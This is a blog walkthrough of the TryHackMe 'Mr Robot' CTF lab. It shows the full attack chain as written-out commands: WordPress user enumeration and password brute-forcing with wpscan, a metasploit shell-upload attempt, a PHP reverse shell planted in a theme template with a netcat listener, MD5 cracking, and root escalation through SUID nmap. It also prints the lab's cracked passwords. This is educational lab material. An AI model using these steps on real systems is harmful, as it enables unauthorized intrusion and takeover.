 ```yaml
---
title: "Mr Robot CTF walkthrough"
date: 2020-05-21
tags: [ctf, tryhackme, mrrobot, walkthrough]
header:
  image: "/images/tryhackme/thm.png"
---
```


# Tryhackme - [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

## Recon:

`nmap -A 10.10.227.36` shows that there are 997 filtered port and port 22, 80 and 443 are filtered. This means that there is some kind of firewall blocking the nmap scans

Lets open the website anyway. the http site give a browser based shell with only few commands. The https site has a self signed certificate, and it also does the same thing

![terminal]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/1-terminal.png)

If we use `wakeup` command, then the port seems to be opened. 
Nothin interesting from the page source too

## File enumeration

lets run a gobuster on this.
`gobuster dir -u http://10.10.227.36/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

There is a /images page but we dont have permissions to access it. THere are lot of such pages with 301 return codes. 
/readme and /license have some text but not helpful

/robots has the hint for first key. 
![robots]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/2-robots.png)

/key-1-of-3.txt page has the first key

## wpscan

We also see wp-content and wp-login pages. So, we can run wpscan to find any wordpress vulnerabilities. I ran a wpscan using `wpscan --url 10.10.227.36`
It reveals /xlmrpc.php page, which says that this page accepts only POST requests
this can be used to enumerate usernames. 
However, I didn't find any valid users with wpscan
`wpscan --url http://10.10.197.250/ --enumerate u`

fsociety.dic is also found on /robots page. Going to /fsociety.dic lets us download the file, which is a list of words
Wordpress sites has permalinks to posts and pages and also user's pages. So, now that we have a word list that resembles usernames, we can check if any of them are valid. We can use `gobuster` to do this
`gobuster --url http://10.10.197.250/author/ -w fsociety.dic`

![users]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/4-users.png)

The fsociety.dic also has some strings resembling a password. We can use wpscan again to check if any password matches
Since it was taking a long time and the .dic is huge, i sorted the file
`cat fsociety.dic | sort -u | uniq > sorted.dic`
Now start the password brute forcing again
`wpscan --url http://10.10.197.250/ --usernames 'elliot','Elliot' --passwords sorted.dic`
Now the estimated time is around 30 mins. Earlier it was 4 hrs.

This gives us a valid password: ER28-0652 for elliot

![password]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/5-password.png)

After logging in, the user's dashboard is shown. The user doesnt have any posts or comments, but is an administrator. We can also see another user in the users tab. There are alos some images in media secion

## Reverse shell

We can install a vulnerable plugin or we can install a reverse shell for wordpress. We can also use metasploit to get a reverse shell using the module `exploit/unix/webapp/wp_admin_shell_upload`

```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 10.10.197.250
set USERNAME elliot
set PASSWORD ER28-0652
run
```
But somehow, it fails saying that the target doesnt appear to be a wordpress site

We can also inject malicious code into the appearence template. [reference](https://www.hackingarticles.in/wordpress-reverse-shell/)
In the appearence seciton of admin dashboard, we change the 404 error template to a php reverse shell. I am using the reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the IP to your internal ip on tryhackme access page and the port to your netcat listener
`nc -lvnp 9001`

And now, going to the site 'http://10.10.197.250/wordpress/wp-content/themes/twentyfifteen/404.php' gives a reverse shell
The reverse shell is with user daemon. There is a second key key-2-of-3.txt and password.raw-md5 in /home/robot but can only be read by robot
So we need to escalate privileges

The password.raw-md5 file can be read by any user. And it gives a md5 hash
We can use hashcat to crack this md5
`hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`
While it is running, we can also check at [hashkiller](https://hashes.com/decrypt/basic) if it can crack it.
Both have cracked it within few seconds 'c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz'
So, the password is *abcdefghijklmnopqrstuvwxyz*

Lets login to robot user with this password. It works and now we can read the second key

## Privilege escalation

We need to escalate privileges to get a root login and find the third key.
Lets check if robot has any sudo permissions using `sudo -l`
Looks like there are none. Lets check if there are any binaries with SUID set using `find / -perm 4000 2>/dev/null`

We can find that nmap in /usr/local/bin/nmap has SUID bit.
We can [exploit](https://gtfobins.github.io/gtfobins/nmap/) this.
```
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
/usr/local/bin/nmap --script=$TF
```
This was not working. I've checked the nmap version and it is 3.81, which is quite old.
It also supports interactive mode using --interactive, which can be used to escalate privileges

```
nmap --interactive
!sh
```

We can use !bash instead, but somehow I am still robot when i use bash. But when i use sh, i am root.

![shell]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/6-shell.png)

the third key is in /root folder



